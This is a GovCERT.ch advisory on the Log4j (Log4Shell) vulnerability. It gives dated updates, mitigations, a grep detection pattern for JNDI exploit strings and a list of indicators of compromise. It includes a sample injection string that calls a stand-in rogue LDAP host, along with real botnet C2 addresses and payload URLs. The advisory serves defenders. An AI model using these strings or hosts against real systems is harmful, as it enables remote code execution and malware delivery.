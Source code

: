 ```yaml
---
title: 'Zero-Day Exploit Targeting Popular Java Library Log4j'
author: GovCERT.ch
draft: true
dateadded: 2021-12-12T19:20:12+01:00
lastmod: 2021-12-18 09:40:00+01:00
date: 2021-12-12T19:20:12+01:00
---
```


<div class="well">

**UPDATE 2021-12-18:**

log4j version 2.17.0 was just released due to a newly discovered DoS (Denial of Service) attack resulting in a StackOverflowError which terminates the process.

Mitigation:

- Update to log4j version 2.17.0

or

- In PatternLayout in the logging configuration, replace Context Lookups like ${ctx:loginId} or $${ctx:loginId} with Thread Context Map patterns (%X, %mdc, or %MDC). [1]
- Otherwise, in the configuration, remove references to Context Lookups like ${ctx:loginId} or $${ctx:loginId} where they originate from sources external to the application such as HTTP headers or user input. [1]

[1] https://logging.apache.org/log4j/2.x/security.html

</div>

<div class="well">

**UPDATE 2021-12-17:**

Please note that the second log4j vulnerability (CVE-2021-45046) just got a higher CVE value of 9.0 as there are some situation where the vulnerability might lead to a remote code execution (or local code execution).

Countermeasures such as removing JndiLookup completely (zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class) also apply to CVE-2021-45046 and version 2.16.0 fixes this vulnerability as well. Other countermeasures such as disabling lookups log4j2.formatMsgNoLookups) or setting trustURLCodebase to false do not completely mitigate the vulnerability as some attack vectors may remain open.

See also here: https://logging.apache.org/log4j/2.x/security.html

We once again urge you to apply the appropriate security updates as soon as possible - if not already done so.

</div>

<div class="well">

**UPDATE 2021-12-14:**

We would like to update our report about log4j with a few important points that came to light recently:

- Having `com.sun.jndi.rmi.object.trustURLCodebase` and `com.sun.jndi.cosnaming.object.trustURLCodebase` set to false does not fully mitigate the threat as it is possible to send the exploit code with the request [^101]. 
- Our Dutch colleagues of NCSC-NL maintain a Github repo containing a lot of valuable information [^102].
- You may want to block outgoing LDAP and RMI connections on the firewall. Please note that it is not sufficient to just block the default ports as the attacker may choose the port to run the Rogue LDAP server freely. Generally it is a good idea to restrict outgoing server traffic by whitelisting required traffic. If this is not possible, you can nevertheless monitor outgoing connections and use a NIDS like Suricata, Snort or Zeek alert you of such connections. 
- Microsoft reported that their security teams has seen Cobalt Strike beacons being dropped after log4j attacks [^103].


[^101]: https://twitter.com/marcioalm/status/1470361495405875200
[^102]: https://github.com/NCSC-NL/log4shell
[^103]: https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/

</div>


On Friday morning, NCSC/GovCERT.ch received reports about a critical vulnerability in a popular Java library called _"Log4j"_. At the time of receiving these reports, the vulnerability apparently has been exploited by threat actors "in the wild" and no patch was available to fix the vulnerability (0-day exploit).

Log4j is a popular Java library developed and maintained by the Apache foundation. The library is widely adopted and used in many commercial and open-source software products as a logging framework for Java.

The vulnerability (CVE-2021-44228 [^1]) is critical, as it can be exploited from remote by an unauthenticated adversary to executed arbitrary code (remote code execution – RCE). The criticality of the vulnerability has a score of 10 (out of 10) in the common vulnerability scoring system (CVSS) which outlines how severe the vulnerability is.

The vulnerability results from how log messages are being handled by the log4j processor. If an attacker sends a specially crafted message (it contains a string like `${jndi:ldap://rogueldapserver.com/a}`), this may result in loading an external code class or message lookup and the execution of that code, leading to a situation that is known as Remote Code Execution (RCE).

![The log4j JNDI attack](assets/log4j_attack.png)

But the vulnerability is also kind of complex: While certain products may be vulnerable, it doesn’t necessary mean that the vulnerability can be successfully exploited as this depends on several pre- and postconditions such as the JVM being used, the actual configuration, etc. Any version of log4j between versions 2.0 and 2.14.1 are affected.

As soon as a patch got released on Friday afternoon, we published an advisory for national critical infrastructure (KRITIS) advising them to apply the corresponding patch as soon as possible. As many 3<sup>rd</sup> party vendors rely on Log4j in their products, they were working hard on releasing patches for their products as well. In the past 48h, many vendors have published security patches for their products. **We urge organizations and national critical infrastructure to check their software landscape for the use of Log4j and apply the corresponding patches as soon as possible. If patching cannot be done, we recommend taking any mitigation measure possible in order to avoid further damage.**

Over the weekend, we have been in permanent contact with national and international partners on the topic, reassessing the situation constantly. We were continuously collecting threat intelligence from OSINT, partners and our own sensors which allowed us to deploy appropriate mitigation measures, protecting vulnerable devices in Switzerland at large scale. On Saturday evening, we have begun notifying potentially affected organizations in Switzerland about vulnerable Log4j instances reachable from the internet. Such notifications were also sent to several national critical infrastructure (KRITIS).

While the vulnerability may be used in targeted attacks against national critical infrastructure, we have not received any reports in that regards yet. The exploitation attempts observed by us so far were used to deploy mass-malware like _Mirai_[^2], _Kinsing_[^3] and _Tsunami_[^4] (aka _Muhstik_). The primary use of these botnets is to launch DDoS attacks (Mirai, Tsunami) or to mine cryptocurrencies (Kinsing).

### Recommendations

- Get an overview of systems and software using log4j in your environment (this can be a time-consuming task, so better start early).
- Apply the corresponding security patches for **internet facing** software / devices **immediately**
- Apply the corresponding security patches for **internal** software / devices at your earliest **convenience**
- If patching is not possible for whatever reason, we strongly recommend isolating the system from the Internet and/or to apply the following mitigation measures:
  - For version >=2.10: set log4j2.formatMsgNoLookups to true
  - For releases from 2.0 to 2.10.0: you may want to remove the LDAP class from log4j completely by issuing the following command: `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`
  - For certain JVM Versions, it is possible to set `com.sun.jndi.rmi.object.trustURLCodebase` and `com.sun.jndi.cosnaming.object.trustURLCodebase` to `false` to mitigate the vulnerability. Some JVM versions already have this as default setting
- You may check for exploitation attempts --- no matter whether they were successful or not --- in your web server logs using the following Linux/Unix command: `sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log/`
- Check your network perimeter logs for the presence of the list of indicators of compromise (IOCs) mentioned below:

```
nazi.uy # Mirai botnet C2
log.exposedbotnets.ru # Tsunami botnet C2
194.59.165.21:8080 # Tsunami botnet C2
195.133.40.15:25565 # Mirai botnet C2
185.154.53.140:80 # Kinsing botnet C2
138.197.206.223:80 # Kinsing payload delivery server
18.228.7.109:80 # Kinsing payload delivery server
82.118.18.201:80 # Kinsing payload delivery server
92.242.40.21:80 # Kinsing payload delivery server
185.191.32.198:80 # Kinsing payload delivery server
80.71.158.12:80 # Kinsing payload delivery server
185.191.32.198:80 # Kinsing payload delivery server
45.137.155.55:80 # Kinsing payload delivery server
185.191.32.198:80 # Kinsing payload delivery server
45.137.155.55:80 # Kinsing payload delivery server
62.210.130.250:80 # Mirai payload delivery server
http://210.141.105.67/wp-content/themes/twentythirteen/m8 # Kinsing payload URL
http://159.89.182.117/wp-content/themes/twentyseventeen/ldm # Kinsing payload URL
45.130.229.168:1389 # Rogue LDAP server
82.118.18.201:1534 # Rogue LDAP server
45.130.229.168:1389 # Rogue LDAP server
185.250.148.157:1389 # Rogue LDAP server
92.242.40.21:5557 # Rogue LDAP server
205.185.115.217:47324 # Rogue LDAP server
163.172.157.143:1389 # Rogue LDAP server
45.155.205.233:12344 # Rogue LDAP server
```

- If you use a Snort or Suricata based (or compatible) Network Based IDS, you may want to use rules to detect exploitation attempts[^5][^6].
- If you have systems that are vulnerable, check them very carefully for any sign of exploitation as the scanning is very intense and we believe that vulnerable systems got exploited quickly.
- If you are using a WAF, deploy the log4j specific rules. These exist for many commercial solutions such as Cloud Armor[^7], Cloudflare WAF[^8], Signal Sciences WAF[^9].

[^1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228
[^2]: https://malpedia.caad.fkie.fraunhofer.de/details/elf.mirai
[^3]: https://malpedia.caad.fkie.fraunhofer.de/details/elf.kinsing
[^4]: https://malpedia.caad.fkie.fraunhofer.de/details/elf.tsunami
[^5]: https://twitter.com/ET_Labs/status/1469339963871354884
[^6]: https://rules.emergingthreatspro.com/open/
[^7]: https://cloud.google.com/blog/products/identity-security/cloud-armor-waf-rule-to-help-address-apache-log4j-vulnerability
[^8]: https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/
[^9]: https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j
